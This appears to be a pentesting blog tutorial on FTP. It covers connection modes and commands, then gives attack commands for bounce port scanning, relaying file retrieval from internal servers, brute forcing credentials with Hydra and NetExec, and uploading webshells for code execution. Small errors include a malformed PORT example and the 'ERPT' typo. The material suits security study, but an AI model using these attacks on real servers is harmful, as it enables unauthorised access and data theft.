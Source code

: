 ```yaml
---
title: "Intro to FTP"
summary: “FTP (File Transfer Protocol) is a protocol used for transferring files between computers on a network”
date: 2024-11-14
tag:
  - Cibersecurity
  - Pentesting
  - FTP
---
```


FTP (File Transfer Protocol) is a protocol used for transferring files between computers on a network, this protocol has a client-server architecture using a server to serve files that can be accessed by N clients. By default, the information is transmitted in plain text, although there is an encrypted version of it called SFTP (Secure File Transfer Protocol).

<!-- more -->

Although there are implementations with a graphical interface, in this article we will make use of the FTP command line tool, which gives us a lot of flexibility when working with the protocol. In later articles we will explore the main client and server implementations, although in this one we will focus on explaining the basic concepts of the protocol, how to work with it and how to take advantage of some misconfigurations.

## Theory

### Communication channels

For FTP to work, two communication channels are required, one for sending commands and the other for data.

### Connection modes

#### Active

This is the default connection mode for FTP connections, in which two events occur:

- A command channel is established in the connection to the server between the server's command port (21 by default) and a port greater than 1023 on the client side (we will refer to this as P).
- Once the data connection is established, an attempt is made to open a connection from the server's data port (20 by default) to port P+1 on the client.

!!! note

    Active mode may present problems with client firewalls because it attempts to create a direct connection to a client-side port, which may be blocked by certain firewalls.

#### Passive

This mode arises as a solution to the problem of client firewalls, here the workflow is modified so that both the data connection and the client connection are initiated from the client, we can break it down into two events.

- A command channel is established on the server connection between the server command port (21 by default) and a port greater than 1023 on the client side (we will refer to this as P).
- Once the data connection is established a data connection is opened from port P+1 on the client to a port on the server data channel, this process is repeated for each file transfer occupying a different server port on each connection (this can be configured in most server side software) .

!!! note

    Passive mode requires the opening of a range of ports in the firewall, this can generate some security problems if this port opening is not configured correctly.

## FTP commands

```bash
CWD -> Changes the current directory to the specified one
DELE -> Deletes the specified file
EPRT -> Establish a socket for data connection
LIST -> List the files in the current directory
PASV -> Change mode to passive mode
PWD -> Displays the current directory 
RETR -> Download the specified file
```

## Anonymous login

There is an FTP configuration that allows the use of a login to share files for any user that requires it, in case this configuration is enabled a user could use anonymous as login name and any password to access the server as a user with low privileges, although in certain cases this can lead to compromise the entire system.

## FTP Bounce port scan

It is possible to abuse the PORT and ERPT commands to perform an open port scan via an FTP server.

### Nmap

```bash
nmap -b <name>:<pass>@<ftp_server> <victim>
```

### Hand-made

Once connected we can perform the port scan using the PORT and ERPT commands followed by a LIST command.

Here is an example for scanning port 9091 on host 10.10.10.14

```bash
PORT 10.10.10.14.14.0.9091
EPRT |2|10.10.10.14|9091||

LIST
```

If the response is a 150 the port is open, in case of receiving a 415 the port is closed.

## FTP Bounce file get

This attack allows an attacker to download files from an FTP server not accessible by the attacker, but which can be reached by an FTP server accessible by the attacker.

![Net Diagram](../../assets/net_diagram.png)

This attack has the following prerequisites:

- Valid credentials for External FTP.
- Valid credentials for Internal FTP.
- Write access for External FTP.
- PORT command execution permissions on both External and Internal.

First of all we will deploy an FTP server on the attacker's machine, this server has to support passive mode.

Once deployed we will open a passive connection with the PASV command and tell it to save it with STOR output.ext .

Now we will create a file with the commands we want to launch against the second server, an example would be the following:

```bash
user ftp # User for the internal server
pass password # Password for the internal server
cwd /DIRECTORY
type i
port F,F,F,F,F,F,X,X #Our passive port
retr file.ext
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
```

Now we upload it with PUT and from the external server we execute the following commands:

```bash
put payload
quote "port C,C,C,C,C,0,21" # IP of internal server
quote "retr payload"
```

After this we will have the file.ext file on our server as output.ext

## Brute force attack

Many FTP servers do not have protection against brute force attacks. Having a user or a list of them we can carry out a brute force attack with different credentials obtained from various sources, although there are several tools for this purpose, the two most common are NetExec and Hydra.  

### NetExec

```bash
nxc ftp IP -u userfile -p passwordfile
```

### Hydra

```bash
hydra -L userfile -P passwordfile ftp://IP
```

## Surprise backup

This is not an attack per se, but it is quite useful, as it allows us to download all accessible files from the server using a single command.

```bash
wget -r ftp://IP/dir/* --ftp-user=username --ftp-password=password
```

## FTP file upload to RCE

In certain circumstances, permission to upload files to the server along with other misconfigurations can lead to obtaining remote execution of commands on the server.

The most common case is the possibility of uploading files to be served by a web server, where we could upload a webshell interpretable by the server to obtain command execution.

## Sniffing credentials

Since FTP works by default in plain text, it is possible for an attacker on the same network to use a sniffer and capture both the credentials and the FTP conversation.

---

In the next article of this series on FTP we will discuss common implementation errors and some known vulnerabilities of some implementations of the protocol.
